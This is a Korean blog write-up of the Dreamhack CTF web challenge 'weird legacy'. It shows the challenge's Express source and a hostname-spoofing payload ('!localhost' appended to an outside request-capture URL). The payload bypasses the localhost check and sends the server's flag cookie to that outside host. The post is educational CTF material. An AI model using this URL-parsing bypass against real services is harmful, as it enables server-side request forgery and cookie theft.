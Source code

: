```yaml
---
title: (48) Dreamhack weird legacy 문제 풀이
date: 2024-03-14 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
산타할아버지가 작년에 빌었던 선물을 이제서야 주셨는데 상태가 `legacy(유산)`이네요.

## 문제 풀이
먼저 사이트에 들어오면 이런 페이지가 있습니다.
![](https://kyuyeop.github.io/assets/img/post/48/1.png)

여기선 건질게 없으니 바로 코드를 확인해 봅시다.
```javascript
const express = require("express");
const node_fetch = require("node-fetch");
const app = express();
const PORT = 3000;
const FLAG = "DH{dummy}";

app.get("/", async (req, res) => {
  res.sendFile(__dirname + "/views/index.html");
});

app.get("/fetch", async (req, res) => {
  const url = req.query.url;

  if (!url) return res.send("?url=<br>ex) http://localhost:3000/");

  let host;
  try {
    const urlObject = new URL(url);
    host = urlObject.hostname;

    if (host !== "localhost" && !host.endsWith("localhost")) return res.send("rejected");
  } catch (error) {
    return res.send("Invalid Url");
  }

  try {
    let result = await node_fetch(url, {
      method: "GET",
      headers: { "Cookie": `FLAG=${FLAG}` },
    });
    const data = await result.text();
    res.send(data);
  } catch {
    return res.send("Request Failed");
  }
});

app.listen(PORT, () => {
  console.log(`Server Running on ${PORT}`);
});
```
역시 `/fetch`페이지가 추가로 존재했습니다. 페이지는 url을 받고 간단한 검증(`host !== "localhost" && !host.endsWith("localhost")`)을 거쳐서 `rejected`를 반환하거나 아래의 코드를 실행합니다.  
그런데 여기서도 딱히 문제가 있는걸 확인하긴 어렵습니다. 그래서 구글링을 좀 해봤는데 토스에서 [Node.js url.parse() 취약점 컨트리뷰션](https://toss.tech/article/nodejs-security-contribution)라는 글을 발견했습니다.  
내용을 간단히 요약하면 hostname을 구할 때 host에서 사용할 수 없는 문자 이전까지만 잘라서 반환하도록 구현되어 있는데 `WHATWG URL API`와 `url.parse()`간의 결과 차이를 이용해 hostname spoofing이 가능하다고 합니다.  

혹시 이건가? 싶어서 적용해 보았습니다. 방법도 간단히 `!`나 `*`을 이용해서 localhost를 이어 써주기만 하면 됩니다.  
문제에서 `host`를 검사할 때 `&&`을 쓰고 있어서 둘 중 하나라도 참을 만들면 우회가 가능합니다. 이번에도 드림핵 툴즈를 사용했습니다.
`/fetch?url=https://nqxuntb.request.dreamhack.games!localhost`(`*`를 사용해도 됨)로 접속을 해보니
![](https://kyuyeop.github.io/assets/img/post/48/2.png)

이렇게 아이피가 뜨고, 드림핵 툴즈 화면으로 돌아가 보면
![](https://kyuyeop.github.io/assets/img/post/48/3.png)

쿠키에 flag가 포함되어 요청이 들어옵니다.  
  
참고로 위 취약점은 최신 버전에서는 패치되었습니다.
{% endraw %}